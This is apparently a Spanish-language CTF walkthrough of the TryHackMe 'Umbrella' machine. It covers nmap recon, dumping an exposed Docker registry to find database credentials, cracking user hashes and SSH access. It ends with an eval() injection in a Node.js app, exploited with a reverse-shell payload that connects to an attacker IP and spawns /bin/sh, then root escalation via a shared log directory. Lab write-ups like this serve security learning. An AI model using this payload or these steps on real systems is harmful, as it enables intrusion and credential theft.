








## Reconocimiento
*Nota: Añadí la dirección IP en mi fichero hosts para utilizar el dominio. (esto es opcional)*

Lanzamos un nmap con scripts y versiones de programas

```
> nmap -sVC -p- --min-rate 5000 umbrella.thm -Pn -n -oG nmap-umbrella.thm.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-28 15:38 CET
Nmap scan report for umbrella.thm (10.10.84.145)
Host is up (0.072s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f0142fd6f6768c589a8e846ab1fbb99f (RSA)
|   256 8a52f1d6ea6d18b26f26ca8987c9496d (ECDSA)
|_  256 4b0d622a795ca07bc4f46c763c227ff9 (ED25519)
3306/tcp open  mysql   MySQL 5.7.40
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 5
|   Capabilities flags: 65535
|   Some Capabilities: ConnectWithDatabase, LongColumnFlag, SupportsTransactions, IgnoreSigpipes, Speaks41ProtocolOld, Speaks41ProtocolNew, InteractiveClient, SwitchToSSLAfterHandshake, SupportsCompression, IgnoreSpaceBeforeParenthesis, Support41Auth, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, LongPassword, ODBCClient, FoundRows, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: d\x0Ek*,K{d#\x021)4ru P\x1F8z
|_  Auth Plugin Name: mysql_native_password
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Not valid before: 2022-12-22T10:04:49
|_Not valid after:  2032-12-19T10:04:49
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
8080/tcp open  http    Node.js (Express middleware)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Accedemos al puerto 8080 y encontramos un formulario de autenticación, probamos credenciales por defecto, pero sin éxito, por lo que habrá que seguir "rascando" para enumerarlas:



Continuamos con el puerto 5000, buscando en [Hacktricks - Pentesting Docker Registry](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), logramos extraer información 

```
> curl -s http://umbrella.thm:5000/v2/_catalog
{"repositories":["umbrella/timetracking"]}
                  
> curl -s http://umbrella.thm:5000/v2/umbrella/tags/list
{"errors":[{"code":"NAME_UNKNOWN","message":"repository name not known to registry","detail":{"name":"umbrella"}}]}

```
Para adelantar, hice uso de esta herramienta [DockerRegistryGrabber](https://github.com/Syzik/DockerRegistryGrabber), con la que pude dumpear el registro de docker.

```python
> python3 drg.py http://umbrella.thm --dump umbrella/timetracking
[+] BlobSum found 23
[+] Dumping umbrella/timetracking
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : c9124d8ccff258cf42f1598eae732c3f530bf4cdfbd7c4cd7b235dfae2e0a549
    [+] Downloading : 62c454461c50ff8fb0d1c5d5ad8146203bb4505b30b9c27e6f05461b6d07edcb
    [+] Downloading : 82f3f98b46d4129f725cab6326d0521589d5b75ae0a480256495d216b2cd9216
    [+] Downloading : e5e56a29478cdf60132aa574648135a89299151414b465942a569f2109eefa65
    [+] Downloading : 7fbf137cf91ff826f2b2fddf3a30ea2e3d2e62d17525b708fd76db392e58df62
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 15b79dac86ef36668f382565f91d1667f7a6fc876a3b58b508b6778d8ed71c0e
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 23e2f216e8246d20ed3271ad109cec07f2a00b17bef8529708d8ae86100c7e03
    [+] Downloading : f897be510228b2f804fc2cb5d04cddae2e5689cbede553fb2d587c54be0ba762
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3241ece5841b2e29213eb450a1b29385bf9e0063c37978253c98ff517e6e1b3    
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 00fde01815c92cc90586fcf531723ab210577a0f1cb1600f08d9f8e12c18f108
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 3f4ca61aafcd4fc07267a105067db35c0f0ac630e1970f3cd0c7bf552780e985
```

Si buscamos el fichero de configuración "app.js", vemos que la contraseña está en una variable de entorno, por lo que vamos a tener que obtenarla desde el aplicativo.

```
> cat usr/src/app/app.js
const mysql = require('mysql');
const express = require('express');
const session = require('express-session');
const path = require('path');
const crypto = require('crypto')
const cookieParser = require('cookie-parser');
const fs = require('fs');

const connection = mysql.createConnection({
        host     : process.env.DB_HOST,
        user     : process.env.DB_USER,
        password : process.env.DB_PASS,
        database : process.env.DB_DATABASE
});

const app = express();
app.set('view engine' , 'ejs')
app.set('views', './views')
app.use(express.static(__dirname + '/public'));
app.use(express.json());
app.use(express.urlencoded({ extended: true }));

```

Continuo con la documentación de [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/5000-pentesting-docker-registry), ejecutamos el siguiente comando, grepeando por "*DB_DATABASE*", y logramos obtener las credenciales del servicio MySQL:

```
> curl -s http://umbrella.thm:5000/v2/umbrella/timetracking/manifests/latest | jq | grep -i "DB_DATABASE"
      "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=********\",\"DB_PASS=**********\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"node\",\"app.js\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":null},\"container\":\"527e55a70a337461e3615c779b0ad035e0860201e4745821c5f3bc4dcd7e6ef9\",\"container_config\":{\"Hostname\":\"527e55a70a33\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"ExposedPorts\":{\"8080/tcp\":{}},\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\",\"NODE_VERSION=19.3.0\",\"YARN_VERSION=1.22.19\",\"DB_HOST=db\",\"DB_USER=****\",\"DB_PASS=************Ng1-f3!Pe7-e5?Nf3xe5************\",\"DB_DATABASE=timetracking\",\"LOG_FILE=/logs/tt.log\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"node\\\" \\\"app.js\\\"]\"],\"Image\":\"sha256:039f3deb094d2931ed42571037e473a5e2daa6fd1192aa1be80298ed61b110f1\",\"Volumes\":null,\"WorkingDir\":\"/usr/src/app\",\"Entrypoint\":[\"docker-entrypoint.sh\"],\"OnBuild\":null,\"Labels\":{}},\"created\":\"2022-12-22T10:03:08.042002316Z\",\"docker_version\":\"20.10.17\",\"id\":\"7aec279d6e756678a51a8f075db1f0a053546364bcf5455f482870cef3b924b4\",\"os\":\"linux\",\"parent\":\"47c36cf308f072d4b86c63dbd2933d1a49bf7adb87b0e43579d9c7f5e6830ab8\",\"throwaway\":true}"
      "v1Compatibility": "{\"id\":\"a736d9865b752b4c30c68719d04b5f5e404bd9302ab81a451a2b6679901ee50d\",\"parent\":\"15da84a53f8e99c1b070fa72a863ba37ccfd70e0df889ff4a8b03f935e03e98b\",\"created\":\"2022-12-22T10:02:11.849073942Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop)  ENV DB_DATABASE=timetracking\"]},\"throwaway\":true}"

```

## Explotación
Nos conectamos al servicio MySQL con las credenciales, encontramos los usuarios registrados en la base de datos, las contraseñas se encuentran cifradas en MD5:

```
MySQL [timetracking]> select * from users;
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | ****************** |   360 |
| chris-r  | ****************** |   420 |
| jill-v   | ****************** |   564 |
| barry-b  | ****************** | 47893 |
+----------+----------------------------------+-------+

```

Utilizamos la herramienta online [hashes.com](https://hashes.com), logramos extraer las cuatro credenciales en texto plano:



En mi caso, fuí directamente "al grano", así que fuí probando usuarios por SSH hasta dar con el correcto (**claire-r**), con el que pude leer el fichero *user.txt*:

```
claire-r@ctf:~$ cat 
.bash_history    .bash_logout     .bashrc          .cache/          .profile         timeTracker-src/ user.txt                                                                             
claire-r@ctf:~$ cat user.txt 
THM{****************************}
```

# Escalada de privilegios

Lanzamos scripts de reconocimiento, pero no encontramos nada útil, así que volvemos al aplicativo, vemos que solo hay una opción llamada "*time*", escribimos un texto arbitrario para probarlo y comprobamos que el aplicativo "explota":



Aprovechamos que tenemos acceso a la máquina, buscamos por "*time*" sobre la carpeta del aplicativo "timeTracker" y encuentramos varios ficheros relacionados.

```
claire-r@ctf:~/timeTracker-src$ grep -r -i time
Dockerfile:ENV DB_DATABASE=timetracking
docker-compose.yml:      MYSQL_DATABASE: 'timetracking'
docker-compose.yml:    image: umbrella/timetracking:latest
app.js:         connection.query('SELECT user,time FROM users', function(error, results) {
app.js:                         let min = results[row].time % 60;
app.js:                         let time = `${(results[row].time - min) / 60}:${padded_min} h`;
app.js:                         users.push({name : results[row].user, time : time});
app.js:// http://localhost:8080/time
app.js:app.post('/time', function(request, response) {
app.js:        let timeCalc = parseInt(eval(request.body.time));
app.js:         let time = isNaN(timeCalc) ? 0 : timeCalc;
app.js:         connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
app.js:                 log(`${username} added ${time} minutes.`, "info")
db/01.sql:      time int
views/home.ejs:         <title>Time Tracking</title>
views/home.ejs:                         <h1>Increase time spent</h1>
views/home.ejs:                         <form action="/time" method="post">
views/home.ejs:                                 <input type="text" name="time" placeholder="time in min..." id="time" required>
views/home.ejs:                         <h1>Time Tracking Statistics</h1>
views/home.ejs:                                   <div class="col col-2">Time spent</div>                                         
views/home.ejs:                                                 <div class="col col-2" data-label="Time"><%= user.time %></div>
claire-r@ctf:~/timeTracker-src$ 
```

### Revisión del fichero "app.js"
Revisamos el código, vemos que se está utilizando la función *eval* para evaluar el contenido de *request.body.time*, esto es peligroso, ya que podría permitir la ejecución de código de sistema.

```
app.post('/time', function(request, response) {

    if (request.session.loggedin && request.session.username) {

        let timeCalc = parseInt(eval(request.body.time));
                let time = isNaN(timeCalc) ? 0 : timeCalc;
        let username = request.session.username;

                connection.query("UPDATE users SET time = time + ? WHERE user = ?", [time, username], function(error, results, fields) {
                        if (error) {
                                log(error, "error")
                        };

                        log(`${username} added ${time} minutes.`, "info")
                        response.redirect('/');
                });
        } else {
        response.redirect('/');;
    }

});
```

Capturamos la petición con **Burp**, probamos a enviar un entero y vemos que el servidor devuelve un *302 found*:



Estas respuestas son interesantes, ya que me da el "pico", de que seríamos capaces de interactuar con el aplicativo mediante los mensajes de error con peticiones ciegas... Osea, si la petición que enviamos devuelve un *código 302*, en teoría se ha enviado al servidor con éxito.

Probamos a leer el fichero */etc/passwd2*, obviamente, este fichero no existe, podemos ver que el servidor indica en el error que no le ha sido posible leer el fichero:



Repetimos la jugada, esta vez, buscamos el fichero correcto y obtenemos un *código 302*:



Esta parte me costó un "kinder" (por no decir "un huevo"), porque no logré encontrar un payload funcional, buscando en *Internete*, encontré varios CTF con diferentes ejemplos, este fue el que me sirvió:



### Payload
```python
(function(){ var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh"), []); var client = new net.Socket(); client.connect(443, "<TU-IP>", function(){ client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;})();
```

Ganamos acceso de root, pero no estamos en la máquina que contiene el fichero *root.txt*.

Pero no es problema, ya que fácilmente encontramos el directorio de logs que comparten ambas máquinas, por lo que no nos complicamos y copiamos una bash con permisos de root (*shell de la derecha*), para lograr ejecutarla con los privilegios elevados desde el usuario *claire-r* (*shell izquierda*), consiguiendo leer la flag de root.



¡Hasta la próxima! ¡Que la "*suerte*" os acompañe!